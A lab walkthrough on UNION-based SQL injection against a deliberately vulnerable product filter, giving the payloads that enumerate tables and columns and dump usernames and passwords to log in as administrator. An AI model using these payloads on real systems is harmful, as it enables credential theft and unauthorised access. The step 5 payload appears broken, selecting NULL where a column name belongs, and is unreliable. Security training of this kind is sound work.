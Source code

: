 # Lab 8: SQL injection attack, listing the database contents on non-Oracle databases

### 🧪 **Lab Overview**

This lab contains a **SQL injection vulnerability** in the **product category filter**. The query results are returned directly in the application's response. This makes it possible to use a **UNION-based SQL injection** to retrieve sensitive data from other database tables. 🧬

---

### 📌 **Objective**

The application has a **login function**, and the backend database contains a table storing **usernames and passwords**.

🎯 Your task is to:

1. Identify the **name of the users table** and its **column names**.
2. Retrieve all the **usernames and passwords** from that table.
3. Use the obtained credentials to **log in as the `administrator` user**.

### **Solution**

1️⃣ Use Burp Suite to intercept and modify the request that sets the product category filter.

![Screenshot from 2025-05-20 21-11-41.png](LabImg/Screenshot_from_2025-05-20_21-11-41.png)

![Screenshot from 2025-05-20 21-11-50.png](LabImg/Screenshot_from_2025-05-20_21-11-50.png)

2️⃣ Determine the number of columns and identify which ones contain text data.

Use the following payload in the `category` parameter:

```sql
     '+UNION+SELECT+NULL,NULL--
```

![Screenshot from 2025-05-20 21-14-54.png](LabImg/Screenshot_from_2025-05-20_21-14-54.png)

![Screenshot from 2025-05-20 21-15-08.png](LabImg/Screenshot_from_2025-05-20_21-15-08.png)

3️⃣ Use this payload to retrieve a list of tables in the database:

```sql
     '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

![Screenshot from 2025-05-20 21-16-39.png](LabImg/Screenshot_from_2025-05-20_21-16-39.png)

![Screenshot from 2025-05-20 21-17-30.png](LabImg/Screenshot_from_2025-05-20_21-17-30.png)

4️⃣ Find the name of the table containing user credentials.

               

5️⃣ Use this payload (replace `users_abcdef` with the actual table name) to retrieve the column names:

```sql
'+UNION+SELECT++NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```

![Screenshot from 2025-05-20 21-23-43.png](LabImg/Screenshot_from_2025-05-20_21-23-43.png)

![Screenshot from 2025-05-20 21-24-33.png](LabImg/Screenshot_from_2025-05-20_21-24-33.png)

6️⃣ Identify the columns for **usernames** and **passwords**.

             
7️⃣ Use this final payload (replace the table and column names accordingly) to retrieve the credentials:

```sql
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```

![Screenshot from 2025-05-20 21-26-32.png](LabImg/Screenshot_from_2025-05-20_21-26-32.png)

![Screenshot from 2025-05-20 21-28-16.png](LabImg/Screenshot_from_2025-05-20_21-28-16.png)

8️⃣ Find the password for the `administrator` user and use it to log in via the login form.

![Screenshot from 2025-05-20 21-28-49.png](LabImg/Screenshot_from_2025-05-20_21-28-49.png)

### **Community solutions**

> [https://youtu.be/cC0_pFyvFtA](https://youtu.be/cC0_pFyvFtA)
>